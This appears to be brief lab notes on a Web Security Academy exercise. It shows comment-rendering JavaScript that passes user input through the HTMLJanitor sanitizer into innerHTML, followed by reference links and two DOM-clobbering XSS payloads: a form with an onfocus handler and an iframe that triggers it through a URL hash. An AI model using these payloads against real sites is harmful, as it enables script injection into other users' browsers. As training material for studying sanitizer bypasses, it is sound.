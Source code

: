 ```
                dateStr = [day, month, year].join('-');

                let newInnerHtml = firstPElement.innerHTML + " | " + dateStr
                firstPElement.innerHTML = newInnerHtml
            }

            firstPElement.appendChild(avatarImgElement);

            commentSection.appendChild(firstPElement);

            if (comment.body) {
                let commentBodyPElement = document.createElement("p");
                commentBodyPElement.innerHTML = janitor.clean(comment.body);

                commentSection.appendChild(commentBodyPElement);
            }
            commentSection.appendChild(document.createElement("p"));

            userComments.appendChild(commentSection);
        }
    }
};
```

https://github.com/guardian/html-janitor

https://hackerone.com/reports/308158

https://support.google.com/richmedia/answer/190941?hl=en#:~:text=In%20a%20URL%2C%20a%20hash,of%20the%20page%20or%20website.

```
<form id=x tabindex=0 onfocus=print()><input id=attributes>
```

```
<iframe src=https://0a0c00b3042e1fedc02a98d10113009b.web-security-academy.net/post?postId=3 onload="setTimeout(()=>this.src=this.src+'#x',500)">
```

